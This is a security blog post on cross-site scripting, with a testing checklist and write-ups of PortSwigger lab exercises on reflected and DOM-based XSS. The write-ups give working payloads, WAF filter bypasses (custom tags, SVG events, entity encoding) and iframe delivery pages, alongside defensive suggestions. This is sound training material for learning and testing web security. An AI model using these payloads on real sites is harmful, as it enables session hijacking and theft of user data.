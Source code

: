 ```yaml
---
layout: post
title: XSS (Cross site scripting)
subtitle: Victim visit malicious URL/site to trigger the payload made of JavaScript. Causing their session to be controlled or data to be stolen
date: 2025-09-15 19:15
author: Ren Sie
comments: true
category: script-input
thumbnail-img: /assets/img/githubpost/xxs_thumb.png
---
```


Cross-site scripting (XSS) is a web security flaw where attackers inject malicious scripts into trusted websites, which then execute in the browsers of unsuspecting users. This exploitation allows attackers to steal sensitive data, hijack user sessions, or manipulate website content by taking advantage of web applications that do not properly validate or sanitize user input.


{: .box-note}
**Note:** 💡 During the testing, use `print()` `prompt("text")` instead of `alert()` since `alert()` is commonly detected and filtered. <br> When testing for XXS, test for html injection first because it’s more likely to work
E.g., \<h1\>test\</h1\>

## Checklist
<details markdown="1">
  <summary>Click me to expand checklist</summary>  

1. **Is input reflected in the response?**

2. **Can we inject HTML?**
   - E.g., `https[://]victim[.]com/search?user=<img src=x onerror=prompt("XSS")>`
    
3. **Any weaknesses in the Content Security Policy (CSP)?**
   - Use of unsafe directives which allow execution of inline scripts or eval() functions, bypassing CSP protections. <br> E.g.,`Content-Security-Policy: script-src 'self' 'unsafe-inline' 'unsafe-eval';`
   - Allowing broad sources or wildcards in directives (e.g., script-src), which permits potentially untrusted external scripts to run. <br> E.g., `Content-Security-Policy: script-src *;`
   - Inclusion of compromised or vulnerable third-party domains in trusted sources, such as JSONP endpoints that can be exploited to inject malicious scripts. <br> E.g., `https[://]third-party_domain[.]com/jsonp?callback=prompt("xss is available!")`
   - Omitting strict directives for resources like object-src or failing to restrict nonces and hashes properly which can allow script injection.
   - Weak or predictable nonces (e.g., 'nonce-12345') that attackers can guess or reproduce to bypass CSP restrictions.
 
4. **Can we use events (e.g. onload, onerror)?**
   - `<body onload="prompt('XSS via onload!')"> Welcome to the website! </body>`
   - `<a href="https[://]trusted[.]com/search?user=<img src=x onerror=prompt("XXS Available")>"> Click me! </a>`

5. **Are there any filtered or escaped characters?**
   - E.g., `<`, `>`, `"`, `'`, `javascript:`, `alert()`
   - Refer to [XSS Filter Evasion Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html)

6. **Is input stored and then later rendered?**

7. **Can we inject into non-changing values (e.g. usernames, comments, etc.)?**
   - E.g., web application allows user input and stores them without proper sanitization.

8. **Any input collected from a third party (e.g. account information)?**
   - Third-party inputs refer to any data or content that comes from an external source (via third-party api) or from other users.

9. Is the version of the framework or dependency vulnerable?
   - [OWASP Dependency-Check](https://github.com/dependency-check/DependencyCheck)
   - [OWASP Dependency-Check Installation and Scanning First project](https://www.youtube.com/watch?v=hWiI700y3J0)

</details>

## 1. Reflected XSS
Inject payload into the HTTP request. And once the web server receive the request, it will response with the payload to sender’s browser. It relies on URL to make user fall for the attack.

### Labs (Reflected XSS)
Just for demostration, I completed some labs on [PortSwigger Academy](https://portswigger.net/web-security/all-labs#cross-site-scripting) to show how this vulnerability can lead to:

<details markdown="1">
<summary>Click me to expand the labs</summary>  

  _**1. Reflected XSS into attribute with angle brackets HTML-encoded**_  
  The application contains a reflected XSS vulnerability in the search blog feature, where angle brackets are HTML-encoded. I inject an attribute via XSS that triggers an alert function.
  
  <details markdown="1">
  <summary>Click me to expand the process</summary>
  
  1. Enter random input (e.g., test123) in the user input (URL query)
     ~~~
     URL: https[://]web-security-academy[.]net/?search=test123
     ~~~
  
  2. Utilize search function in inspection tab, and search for input (e.g., test123)
     ~~~
     Result: <input type="text" placeholder="Search the blog..." name="search" value="test123">
     ~~~
  
  3. After learning that our input is within a double-quoted attribute, we can try to bypass the double-quoted attributes by breaking out of the attribute value with the injection of double quotes or equivalent encodings, and then adding the HTML events that triggers the payload.
     ~~~
     URL: https[://]web-security-academy[.]net/?search=test123" onmouseover="alert(test)
     Result: <input type="text" placeholder="Search the blog..." name="search" value="test123" onmouseover="alert(test)">
     ~~~

     {: .box-note}
     **Note:** The `value` attribute is closed early by the injected quote, and `onmouseover="alert(1)` is interpreted as a new `onmouseover` attribute on the \<input\> tag.

  4. Once I hover the cursor over the search bar, it triggers the alert. I identify the XSS vulnerability.

  </details>
  -

  _**2. Reflected XSS into a JavaScript string with angle brackets HTML encoded**_  
  In this instance, the application is vulnerable to reflected XSS in the search query tracking functionality, where angle brackets are encoded. The reflection occurs inside a JavaScript string. I break out of the string and triggers the `prompt()` function, to demonstrate the vulnerability.
  
  <details markdown="1">
  <summary>Click me to expand the process</summary>
  
  1. I enter random input (e.g., test) in the user input (search bar)
  
  2. Utilize search function in inspection tab, and search for input (e.g., test). I find that the input is directly past into the function.
     ```javascript
     var searchTerms = 'test';
       document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
     ```
  
  3. Now I learn that my input is inside the single quote, I try breaking out the single quote with:
     ~~~
     Input: '-prompt("TestXSS")-' # breaks the single quote
           or \\'-prompt("TestXSS")// # If single quotes are escaped
     ~~~
  
  4. The message pops up after I send the query, which confirms that this instance is vulnerable to XSS. <br> Just to double-check, I pull out the script from the inspection tab.
     ```javascript
     var searchTerms = ''-prompt("TestXSS")-'';
     document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
     ```
  </details>
  -

  _**3. Reflected DOM XSS**_  
  In this instance, a script on the page processes reflected data (user input) with `eval()` without any sanitization and ultimately writes it to a dangerous sink.
  
  <details markdown="1">
  <summary>Click me to expand the process</summary>

  1. First, I find the script used in the web application under the Network tab on the Inspection page.
     - The `xhr.open` method sends a GET request (with user input retrieved from `path + window.location.search`) and fetches data from the server using `XMLHttpRequest`.
     - Then it parses the JSON response (`this.responseText`) with `eval()`.
     - Lastly, it dynamically create and display search results (`displaySearchResults`) in the HTML DOM.

     ```javascript
     var xhr = new XMLHttpRequest();
     xhr.onreadystatechange = function() {
          if (this.readyState == 4 && this.status == 200) {
          eval('var searchResultsObj = ' + this.responseText);
          displaySearchResults(searchResultsObj);
          }
     };
     xhr.open("GET", path + window.location.search);
     xhr.send();
     ```
   
  2. I send a test request and intercept the response using Burp Proxy.
     ```json
     {"results":[],"searchTerm":"test"}
     ```

  3. Because the script uses `eval()` to process the response, I can insert the `prompt()` function (see JSON Values in the [JSON Syntax](https://www.w3schools.com/js/js_json_syntax.asp))."  
     Now that I know the JSON structure, I create an input to break out of the expected structure in Burp Repeater.

  4. In the response to my first payload attempt `test\"-prompt()}//`, the double quote is escaped by the application, so I add an extra backslash (`\`) to bypass it.
     ~~~
     1-st_Request: ?search=test"-prompt()}//
     Response: {"results":[],"searchTerm":"test\"-prompt()}//"}
     ~~~
     ~~~
     2-nd_Request: ?search=test\"-prompt()}//
     Response: {"results":[],"searchTerm":"test\\"-prompt()}//"}
     ~~~

     {: .box-note}
     **Note:** The [Arithmetic Operators](https://www.w3schools.com/programming/prog_operators_arithmetic.php#gsc.tab=0) (`-`) forces `prompt()` to be parsed and executed as part of an expression. And ensuring it is executed immediately, not just ignored.
     And the `//` comments out whatever is after it.

  </details>
  -

  _**4. Reflected XSS into HTML context with most tags and attributes blocked**_  
  In this instance, the `/?search` parameter is being reflected into the page as HTML without proper contextual encoding or sanitization, and the WAF’s tag/attribute filtering is insufficient, so I bypass the filter and executes `prompt()`.

  <details markdown="1">
  <summary>Click me to expand the process</summary>

  1. After using general XSS testing payloads, I learn that the WAF is blocking some HTML tags to prevent common XSS.
     ~~~
     Payload: <img src="0" onerror="prompt()">
     Respond: "Tag is not allowed"
     ~~~

  2. To find out which tag isn't blocked, I used Burp Intruder with all tag options as payload (retrieved from the [XSS cheat sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)). The result tells me that `<body>` is not blocked by the WAF.
     ~~~
     Burp Intruder:
     GET /?search=<Payload Position> HTTP/2
     ~~~

  3. After enclosing payloads within the `<body>` tag, I learn that the WAF is also blocking some attributes.
     ~~~
     Payload: <body onload="prompt()">
     Respond: "Attributes is not allowed"
     ~~~

  4. Repeating step 2, but this time I copy the events from the XSS cheat sheet. I got some events that comes back with 200 OK. 
     ~~~
     Burp Intruder:
     GET /?search=<body%20<Payload Position>=prompt()>
     ~~~

  5. To make the exploitation more realistic, after going through the unfiltered event attributes:
     - I used an `<iframe>` to embeds this vulnerable webpage (`src="https[://]vulnerable[.]com/`).
     - The query parameter `/?search` then load the URL-encoded payload `%22%3E%3Cbody+onresize=prompt()%3E`
     - [this.style.width](https://www.w3schools.com/jsref/prop_style_width.asp) to adjust the iframe’s size, which will trigger the `onresize` event and `prompt()`.

     ~~~
     <iframe src="https[://]vulnerable[.]com/?search=%22%3E%3Cbody+onresize=prompt()%3E" onload=this.style.height='88px'></iframe>
     ~~~

  6. Because I bypass the WAF filter with non-filterd tag and attribution, the function `prompt()` will be executed once someone clicks on the link.

  _**Suggestion**_
  1. [Treating user input strictly as data](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html#xss-defense-philosophy). Encode/escape for the HTML context or render search terms as text nodes, never raw HTML.
  2. Apply a server‑side allowlist sanitizer (or a vetted library such as [DOMPurify](https://www.npmjs.com/package/dompurify) when sanitization is required)
  3. Enforce [Content Security Policy](https://cheatsheetseries.owasp.org/cheatsheets/Content_Security_Policy_Cheat_Sheet.html) that disallows inline event handlers/scripts.
  4. [Harden WAF normalization/rules](https://docs.oracle.com/en-us/iaas/Content/WAF/Protections/protections_management.htm) to catch decoded event-attribute payloads.

  </details>
  -

  _**5. Reflected XSS into HTML context with all tags blocked except custom ones**_  
  In this instance, I find that the WAF blocks standard tags but allows custom element names. Because browser will parse custom tags as valid elements (`<cust-foo>`) and allow attributes (`onfocus`), I bypass the WAF and execute a prompt with custom tag, and other components to simulate the exploit in a real‑world scenario.

  <details markdown="1">
  <summary>Click me to expand the process</summary>

  1. I started by testing the input form, and the response indicated that the tag was blocked.
     ~~~
     Request: GET /?search=<script>test</script>
     Response: "Tag is not allowed"
     ~~~

  2. Then I tried using a custom tag (`<cust-foo>`); this time, I did not receive any error. This confirms that the WAF does not block [custom tag](https://matthewjamestaylor.com/custom-tags).
     ~~~
     Request: GET /?search=<cust-foo>test</cust-foo>
     Response: HTTP/2 200 OK
     ~~~

  3. The browser treats custom tags (`<cust-foo>`) as valid HTML elements and parses their attributes and event handlers (`onmouseover`), which execute JavaScript when triggered by moving the cursor over a specific spot.
     ~~~
     Request: GET /?search=<cust-foo onmouseover='prompt("xss")'>Move your mouse here</cust-foo>
     Response: A pop-up "xss"
     ~~~

  4. To make the exploitation more realistic, I used custom tags with some components to create an .html file. As soon as a user opens it, they woulbe be redirected to the designated page and the prompt was executed:
     - `window.location.assign()`: Redirect the user's browser to a new URL while keeping the current page in the session history (Back button available).
     - `id`: Gives the element a unique identifier in the DOM (e.g., a1).
     - `tabindex`: Makes the element focusable, which can be used with `onfocus` events.
     - `onfocus`: The JavaScript will be triggered when the element (`id`) receives focus.
     - `#a1`: Call out and focus on the element `a1`.

     ```javascript
     <script>
     window.location.assign("https[://]vulnerable[.]com/?search=<cust-tag id=a1 tabindex=1 onfocus='prompt("I am focusable")'>#a1")
     </script>
     ```

  _**Suggestion**_
  1. Use a proven HTML sanitizer (e.g. [DOMPurify](https://www.npmjs.com/package/dompurify)) on output that must contain HTML (server-side)
  2. Configure [allowlists](https://help.ivanti.com/ht/help/en_US/ISM/2025/admin-user/Content/Configure/SetUpWizard/Configure%20Allowed%20Tags%20and%20Attribute.htm), only permit required tags and attributes, and explicitly exclude all event handler attributes (e.g., on*).
  3. Apply the appropriate [encoding](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html#output-encoding) based on where the data will be used (body, attribute, JavaScript string, URL, CSS), and do not rely on a single generic encoding for all contexts.
  4. Prefer [framework helpers](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html#framework-security) and templating engines that provide automatic, correct output escaping rather than hand‑rolling your own escaping logic.
  5. Remove unnecessary HTML rendering of user‑supplied content whenever possible. If a field is a search query or otherwise simple text, return it as plain text (properly escaped) instead of rendering it as HTML with tags.
  
  </details>
  -

  _**6. Reflected XSS with some SVG markup allowed**_  
  In this instance, I discovered a reflected XSS vector that bypasses the WAF by using certain unfiltered tags and event. By inserting those, I was able to execute JavaScript, demonstrating a reflected XSS bypass through SVG + SMIL animation events.

  <details markdown="1">
  <summary>Click me to expand the process</summary>

  1. I started by testing the input form, and the response indicated that the tag was blocked.
     ~~~
     Request: GET /?search=<script>prompt()</script>
     Response: "Tag is not allowed"
     ~~~

  2. To find out which tag isn't blocked, I used Burp Intruder with all tag options as payload (retrieved from the [XSS cheat sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)). The result tells me that `<animatetransform>`, `<image>`, `<svg>`, `<title>` are not blocked by the WAF.
     ~~~
     Burp Intruder:
     GET /?search=<Payload Position> HTTP/1.1
     ~~~

  3. Next, to find out which event is not filtered. I repeated step 2 but copied the events from the [XSS cheat sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet). I use `<image>` as example since I know it is not filtered, then I received only `onbegin` events that returned 200 OK.
     ~~~
     Burp Intruder:
     GET /?search=<image+src="x"+<Payload Position>=1> HTTP/1.1
     ~~~

  5. After some [researches](https://developer.mozilla.org/en-US/docs/Web/API/SVGAnimationElement/beginEvent_event, "SVGAnimationElement: beginEvent event"), I learned that `<svg>` and `<animatetransform>` can be used with `onbegin`. To test it out, I inserted `prompt()`, and the application responded with a pop‑up window containing my text, which proves that I bypassed the WAF's filters and executed a test script.
     ~~~
     <svg><animatetransform onbegin='prompt("Is this vulnerable to XSS?")'>
     ~~~
   
  _**Suggestion**_
  1. Treat any HTML or SVG in user input as untrusted. Ensure [server‑side output encoding](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html#output-encoding) is applied.
  2. If you must allow HTML/SVG, sanitize server‑side with a library that understands and safely handles SVG (e.g., [DOMPurify](https://www.npmjs.com/package/dompurify)).
  3. Deploy [Content Security Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/Guides/CSP) that avoids unsafe-inline and blocks inline script execution and data:/javascript: URLs (use script-src 'self' plus nonces/hashes if inline scripts are required).

  </details>
  -

  _**7. Reflected XSS in canonical link tag**_  
In this instance, I discovered that untrusted input from the URL query string is reflected into canonical link tag in the page source. By injecting [accesskey](https://www.w3schools.com/jsref/prop_html_accesskey.asp, "HTML DOM Element accessKey") attribute,  I was able to prove code execution in the page context after pressing the keystroke triggered JavaScript.

  <details markdown="1">
  <summary>Click me to expand the process</summary>

  1. I opened the Inspector and found the canonical link in the source code.
     ~~~
     <link rel="canonical" href="https://web-security-academy.net/">
     ~~~

  2. I inserted a test string (`?test`) into the URL and saw my input rendered directly in the canonical link.
     ~~~
     <link rel="canonical" href="https[://]web-security-academy[.]net/?test">
     ~~~

  3. I then added an `accesskey` attribute to the `<link>` tag, and when the designated key was pressed it triggered the `onclick` event. The results showed:
     - Spaces in my input were encoded (`%20`) in the URL, but they were rendered as extra encoded spaces (` %20`) in the source code.
     - A single quotes were encoded (`%27`) in the URL, but they rendered as double quotes in the source code.
     ~~~
     Request: /?test' accesskey='x' onclick='prompt(test)
     Response: <link rel="canonical" href="https[://]web-security-academy[.]net/?test" %20accesskey="x" %20onclick="prompt(test)">
     ~~~

  4. To bypass this, I removed the spaces from my input. After pressing Ctrl+Alt+X, a popup displayed my message.
     ~~~
     Request: /?test'accesskey='x'onclick='prompt(&quot;XSS&nbsp;vulnerable?&nbsp;YES!&quot;)
     Response: <link rel="canonical" href="https[://]web-security-academy[.]net/?test" accesskey="x" onclick="prompt(&quot;XSS&nbsp;vulnerable?&nbsp;YES!&quot;)">
     ~~~

  _**Suggestion**_
  1. Don't reflect user input directly into HTML, ensure [server‑side output encoding](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html#output-encoding) is applied.
  2. [Sanitize & validate input](https://cheatsheetseries.owasp.org/cheatsheets/Input_Validation_Cheat_Sheet.html#implementing-input-validation), if input used as a URL, validate against an allow-list of permitted patterns.
  3. Use [DOM methods](https://cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html#rule-6-populate-the-dom-using-safe-javascript-functions-or-properties) to create and manage elements, attributes, and text nodes safely.
  4. Add/strengthen [Content Security Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/Guides/CSP).
  5. Use [HTTP security headers](https://cheatsheetseries.owasp.org/cheatsheets/HTTP_Headers_Cheat_Sheet.html#security-headers).

  </details>
  -

  _**8. Reflected XSS into a JavaScript string with single quote and backslash escaped**_  
  In this instance, I discover a XSS vulnerability in the search tracking code. The application inserts user input directly into a JavaScript single-quoted string and escapes single quotes with a backslash, but it does not prevent breaking out of the surrounding script context (angle bracket > not escaped). I terminate the `<script>` tag and injecting a new `<script>` block.

  <details markdown="1">
  <summary>Click me to expand the process</summary>

  1. I start by testing the input (`test_input`) to see where it is rendered in the source code, then I find my input is in a search function.
     ```javascript
     <script>
       var searchTerms = 'test_input';
       document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
     </script>
     ```
   
  2. To test whether I can break out of the single quote (`'`), I try entering a single quote, but it is escaped with a backslash (`'\`).
     ```javascript
     <script>
       var searchTerms = '\'test_input';
       document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
     </script>
     ```
   
  3. I try to escape the backslash (`\\'`), but it doesn’t work.
     ```javascript
     <script>
       var searchTerms = '\\\'test_input';
       document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
     </script>
     ```
   
  4. Then I discover that the angle bracket isn’t escaped, so I close the existing tag with `</script>` and insert a new one `<script>prompt();</script>`. A popup then displays my message.
     ```javascript
     <script>
       var searchTerms = '</script><script>prompt("Am I vulnerable to XSS");</script>
       ';document.write('
     ```
   
  _**Suggestion**_
  1. Validate and sanitize user input on client side to reject or clean inputs containing malicious characters or script tags.
  2. When inserting user input into JS strings, use [output encoding](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html#output-encoding) that safely escapes all special characters that could break the context, not just single quotes and backslashes.
  3. Don't place variables into [dangerous contexts](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html#dangerous-contexts) as even with output encoding.
  4. Implement [Content Security Policy](https://cheatsheetseries.owasp.org/cheatsheets/Content_Security_Policy_Cheat_Sheet.html#defense-against-xss) that limits the sources and inline script execution. 

  </details>
  -

  _**9. Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped**_  
  In this instance, user input is inserted into a <script> tag with insufficient sanitization. Although special characters (e.g., `<>`, `"`) are HTML-encoded, single quotes (`'`) are only escaped with a backslash (`\'`), I bypass the protection by escaping the backslash itself.

  <details markdown="1">
  <summary>Click me to expand the process</summary>

  1. I start by testing the input (`test_input`) to see where it is rendered in the source code, then I find my input is in a search function.
     ```javascript
     <script>
       var searchTerms = 'test_input';
       document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
     </script>
     ```
  2. To test whether I can break out of the single quote (`'`), I try entering a single quote and inserting a new tag, but the single quote is escaped with a backslash (`\'`), and the angle bracket and double quote are HTML-encoded for escaping.
     ```javascript
     <script>
       var searchTerms = '\' &lt;/script&gt;&lt;img src=&quot;x&quot; onerror=&quot;prompt()&quot;&gt;';
     </script>
     ```
  3. I try to escape the backslash (`\\'`), and it works.
     ```javascript
     <script>
       var searchTerms = '\\'';
     </script>
     ```   
  4. Now I know that the single quote will be escaped with a backslash (`\'`), but the backslash itself can be escaped by inserting another backslash (`\\'`). Double quotes and angle brackets are HTML-encoded for escaping. We can craft the payload:
     - Backslash neutralizes the escaping (`\\'`).
     - Hyphen serves as a valid operator between two expressions ensures the payload executes as JavaScript ('string' - prompt()).
     - Double forwardslash comments out trailing quotes (`//`).
     ```javascript
     <script>
       var searchTerms = '\\' - prompt()//';
     </script>
     ```
     
  5. As the web application response with a pop up window, I am assure that it is vulnerable to reflected XSS.

  _**Suggestion**_
  1. Apply JS [context-aware encoding](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html#output-encoding) when injecting untrusted data into JavaScript,
  2. Validate and sanitize user input on client side to reject or clean inputs containing malicious characters or script tags.
  3. Implement a [CSP header](https://cheatsheetseries.owasp.org/cheatsheets/Content_Security_Policy_Cheat_Sheet.html#defense-against-xss) to reduce the impact of XSS.
  4. Employ frameworks or libraries (e.g., [angular](https://angular.dev/best-practices/security#preventing-cross-site-scripting-xss)) that automatically escape user input based on context, or server-side templating engines with built-in sanitization.

  </details>
  -

  _**10. Reflected XSS into a template literal with angle brackets, single, double quotes, backslash and backticks Unicode-escaped**_  
  This web application is vulnerable to a Reflected XSS flaw due to unsafe interpolation of user input within a [JavaScript template literal](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Template_literals). Although special characters (`<>`, `"`, `'`, `\`, `` ` ``) are Unicode-escaped, the vulnerability remains because input is evaluated inside a `${}` expression within the template literal without proper escaping.

  <details markdown="1">
  <summary>Click me to expand the process</summary>

  1. I start by testing the input (`'"``<>\`) to see where it is rendered in the source code, then I find my input is in a JavaScript template literals. And I also notice that all the special characters are unicode-escaped.
     ```javascript
     <script>
       var message = `0 search results for '\u0027\u0022\u0060\u003c\u003e\u005c'`;
       document.getElementById('searchMessage').innerText = message;
     <\script>
     ```
     
  2. Because JavaScript evaluates whatever is inside the embedded expression (`${}`) of a template literal as code, I tried to insert my payload directly to test whether there was a filter or any other protection implemented.
     A window popped up after inserting my payload, which proves this instance is still vulnerable to reflected XSS because there is no protection on its JS template literal.
     ```javascript
     <script>
       var message = `0 search results for '${prompt()}'`;
       document.getElementById('searchMessage').innerText = message;
     <\script>
     ```

  _**Suggestion**_
  1. Apply JS [context-aware encoding](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html#output-encoding) when injecting untrusted data into JavaScript,
  2. Apply a server‑side allowlist sanitizer (or a vetted library such as [DOMPurify](https://www.npmjs.com/package/dompurify) when sanitization is required)
  3. Implement [CSP header](https://cheatsheetseries.owasp.org/cheatsheets/Content_Security_Policy_Cheat_Sheet.html#defense-against-xss) to reduce the impact of XSS.

  </details>
  -

</details>

## 2. Dom-Based XSS
Client-side has vulnerable JavaScript. It doesn’t involve with the server-side, completely rely on client’s browser to execute the payload.
One quick check is turn on the developer tool, input and execute a simple prompt or alert script, see if there’s any network interaction with the server.

{: .box-note}
**Note:** 🚨 Inspecting Network page in the developer tab while sending input. If there’s no external communication happens, it indicates it is Dom-Based XXS.

### Labs (Dom-Based XSS)
Just for demostration, I completed some labs on [PortSwigger Academy](https://portswigger.net/web-security/all-labs#cross-site-scripting) to show how this vulnerability can lead to:

<details markdown="1">
  <summary>Click me to expand the labs</summary>  

  _**1. DOM-based XSS in document.write sink using source location.search**_  
  The target application use `document.write()` function to display content from `location.search`, which comes from the URL query string. Allows users to modify the URL, and to inject and execute arbitrary scripts in the page.
  
  <details markdown="1">
  <summary>Click me to expand the process</summary>  
  
  1. Enter random input (e.g., 123456) in the user input (URL query)
     ~~~
     https[://]web-security-academy.net/?search=123456
     ~~~
  
  2. Right-click on the webpage and open the inspection tab
  
  3. Press `Crtl+F` to open search function in inspection tab, and search for input (e.g., 123456)
     ~~~
     Result: <img src="/resources/images/tracker[.]gif?searchTerms=123456">
     ~~~
  
  4. After knowing the syntax. We can add a closing angle bracket to close up the img tag, and add a new tag with the payload. I use HTML encoding to bypass the filter.
     ~~~
     URL: "><script src=x onerror="&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041"></script>
     Result: <img src="/resources/images/tracker[.]gif?searchTerms=">
          <script src="x" onerror="javascript:alert('XSS')"></script>
     ~~~

  </details>
  -

  _**2. DOM XSS in innerHTML sink using source location.search**_  
  The application It assigns data from `location.search` to `innerHTML`, which updates the contents of a `<div>`. Since the URL can be controlled by the user, they can inject malicious HTML or scripts.
  
  <details markdown="1">
  <summary>Click me to expand the process</summary>  
  
  1. Enter random input (e.g., 123456) in the user input (URL query)
     ~~~
     https[://]web-security-academy.net/?search=123456
     ~~~
  
  2. Right-click on the webpage and open the inspection tab
  
  3. Press `Crtl+F` to open search function in inspection tab, and search for input (e.g., 123456)
     ~~~
     Result: <span id="searchMessage">123456</span>
     ~~~
  
  4. After knowing the syntax. I can add a closing tag to close up `<span>`, and add a new `<img>` tag with the payload. I use HTML encoding to bypass the filter.
       ~~~
       URL: https[://]web-security-academy[.]net/?search=</span><img src=x onerror="&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041">
       Result: <span id="searchMessage"><img src="x" onerror="javascript:alert('XSS')"></span> <span>'</span> == $0
     ~~~
  
  </details>
  -
  
  _**3. DOM XSS in jQuery anchor href attribute sink using location.search source**_  
  In this instance, jQuery’s `$` selector is used to find a link and set its `href` using data from `location.search`, which comes from the URL query string.
  
  <details markdown="1">
  <summary>Click me to expand the process</summary>
  
  1. Right-click on the webpage and open the inspection tab. I search for `location.search`, which led me to this script:
     ```javascript
     $(function() {
       $('#backLink').attr("href", (new URLSearchParams(window.location.search)).get('returnPath'));
     });
     ```
  
  2. I also notice that the URL contains the `returnPath` query parameter, which aligns with the script. Which uses this query parameter to set the href attribute of the backlink.
     ~~~
     URL: https[://]web-security-academy[.]net/feedback?returnPath=/
     ~~~
  
  3. Insert the payload into the `returnPath` query parameter.
     ~~~
     URL: https[://]web-security-academy[.]net/feedback?returnPath=javascript:prompt(document.cookie)
     Result: <a id="backLink" href="javascript:prompt(document.cookie)">Back</a>
     ~~~
  
  </details>
  -

  _**4. DOM XSS in jQuery selector sink using a hashchange event**_  
  There is a DOM-based XSS vulnerability on the home page, where jQuery’s `$()` selector is used to auto-scroll to a post, with the title passed through `location.hash`.
  
  <details markdown="1">
  <summary>Click me to expand the process</summary>
  
  1. Firstly, I search for `$()` in the inspection tab, and I find the syntax for this function. Which listens for hash changes in the URL (`/#`) and scrolls the corresponding blog post into view based on the hash value.
     ```javascript
     $(window).on('hashchange', function(){
       var post = $('section.blog-list h2:contains(' + decodeURIComponent(window.location.hash.slice(1)) + ')');
       if (post) post.get(0).scrollIntoView();
     });
     ```
  
  2. I append a simple XSS test payload with a hashtag to the URL, and the print function is triggered. The XSS vulnerability in this application is confirmed.
     ~~~
     URL: https[://]web-security-academy[.]net/#<img src=x onerror=print()>
     ~~~

  3. In the case that I want to deliver this payload to others, I utilize `iframe`, `onload`, `img src`, and `onerror` to trigger the payload once they open the page.
     ~~~
     URL: <iframe src="https[://]web-security-academy[.]net/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>
     ~~~

     {: .box-note}
     **Note:** The `onload` attribute of the `iframe` runs JavaScript to append the print payload directly into the URL fragment after the page loads. The vulnerable page inside the iframe then reads this fragment (<img src=x onerror=print()>) and executes the injected payload.
  
  </details>
  -

_**5. DOM XSS in document.write sink using source location.search inside a select element**_  
  This instance contains a DOM-based XSS vulnerability in the stock checker functionality. It leverages the `document.write` function to output data to the page, using data from `location.search` that user can control through the website URL. The input data is between the `<option>` tag, I break out of it and calls the `prompt` function.
  
  <details markdown="1">
  <summary>Click me to expand the process</summary>
  
  1. Firstly, I discover the function in the inspection tab (`right-click on the webpage > inspect`).
     And I learn that the script builds a `<select name="storeId">` dropdown by reading a `storeId` query parameter from the URL and, if present, adding it as the selected `<option>` before adding the three hard-coded stores (skipping any duplicate).
     It uses `document.write` with the raw URL value, so unescaped input could be reflected into the page; creating elements and setting textContent/value.
     ```javascript
     var stores = ["London", "Paris", "Milan"];
     var store = (new URLSearchParams(window.location.search)).get('storeId');
     document.write('<select name="storeId">');
     if(store) {
       document.write('<option selected>' + store + '</option>');
     }

     for(var i = 0; i < stores.length; i++) {
       if(stores[i] === store) {
           continue;
       }
       document.write('<option>' + stores[i] + '</option>');
     }

     document.write('</select>');
     ```

  2. After discovering that the function takes user input in the `storeId` parameter, I add the `storeId` parameter after the original `productId` parameter with a `&`. I then send a test input (e.g., test) to see the application's response. As expected, I am able to add a new selected `<option>`.
     ~~~
     URL: https[://]web-security-academy[.]net/product?productId=2&storeId=test
     Result:
     <select name="storeId">
       <option selected>test</option> # I create this option by inserting the parameter and value in the URL.
       <option>London</option>
       <option>Paris</option>
       <option>Milan</option>
     ~~~
  
  3. Remember this syntax `document.write('<option>' + stores[i] + '</option>');` from the function. What I can do is close the first `<option>` tag, inject new HTML tags and event attributes, and then open another `<option>` tag. I try injecting a couple of new HTML tags, and both work.
     Now, I can confirm that the stock search query function on this web application is vulnerable to XSS.
     ~~~
     Payload-1: storeId=test</option><iframe src="javascript:prompt('work?');"></iframe><option>
     Payload-2: storeId=test</option><script>prompt('work?')</script><option>
     ~~~

  </details>
  -

